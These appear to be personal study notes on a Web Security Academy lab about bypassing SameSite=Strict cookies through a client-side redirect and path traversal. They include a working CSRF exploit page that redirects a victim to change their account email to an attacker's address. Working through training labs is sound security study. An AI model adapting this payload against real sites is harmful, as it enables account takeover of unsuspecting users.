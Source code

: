 ## Lab: SameSite Strict bypass via client-side redirect

Defense:
- SameSite: Strict

Bypass:
- Find a client redirect, with controllable redirect URL
- path traversal contructs redirect URL


Question:
- in the redirect URL, the submit parameter, the & char does not work, but %26 (ASCII of &) works, why?

```
<html>
    <body>
        <script>
            document.location = "https://0ad700d60490926080c4064d00c100a4.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwne123d3%2540evil-user.net%26submit=1"
        </script>
    </body>
</html>
```
